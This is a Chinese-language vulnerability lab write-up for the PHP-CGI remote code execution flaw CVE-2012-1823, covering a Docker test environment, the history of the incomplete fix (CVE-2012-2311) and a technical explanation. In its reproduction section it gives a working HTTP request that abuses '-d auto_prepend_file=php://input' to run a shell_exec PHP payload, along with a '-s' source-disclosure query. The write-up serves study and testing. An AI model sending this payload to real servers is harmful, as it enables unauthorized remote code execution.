


PHP-CGI 远程代码执行漏洞（CVE-2012-1823）¶
PHP-CGI 是一个 SAPI（服务器应用程序编程接口）实现，用于使 PHP 与 Web 服务器进行通信。PHP-CGI 中的一个漏洞允许攻击者通过查询字符串向 PHP 传递命令行参数，从而可能导致远程代码执行。
影响版本：PHP < 5.3.12 或 PHP < 5.4.2
参考链接：
- http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
- https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html
环境搭建¶
执行如下命令启动一个使用 PHP-CGI 5.4.1 的 Web 服务器：
docker compose up -d
环境启动后，访问 http://your-ip:8080/ 可以看到 "Hello" 字样。
漏洞复现¶
访问 http://your-ip:8080/index.php?-s 即可显示源代码，说明漏洞存在。发送如下数据包可执行任意 PHP 代码：
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
<?php echo shell_exec("id"); ?>
技术细节¶
PHP SAPI 与运行模式¶
PHP-CGI 可以在两种模式下运行：
- CGI 模式：Web 服务器为每个请求创建一个新进程
- FastCGI 模式：一个持久进程处理多个请求
根据 RFC3875 规定，当查询字符串中不包含未编码的 = 字符时，应该将其作为 CGI 参数传入。Apache 实现了这个要求，但 PHP 没有正确处理这种情况，导致了这个漏洞。
最简单的利用方式是使用 -s 参数来显示源代码：

一个更强大的方法是使用 -d 指定 auto_prepend_file，从而创建任意文件包含漏洞：

注意：空格需要用 + 或 %20 代替，= 字符需要进行 URL 编码。
CVE-2012-2311 - 不完整的修复¶
PHP 最初在 5.4.2 和 5.3.12 版本中通过检查查询字符串开头的 - 字符来修复这个漏洞。但这个修复是不完整的，当 PHP-CGI 被包装在 shell 脚本中时可以被绕过（CVE-2012-2311）：
#!/bin/sh
exec /usr/local/bin/php-cgi $*
通过在 - 前添加空白字符，攻击者仍然可以传递参数，因为第一个字符是空格而不是 -。
PHP 在 5.4.3 和 5.3.13 版本中通过在检查 - 字符之前跳过所有前导空白字符来解决了这个问题。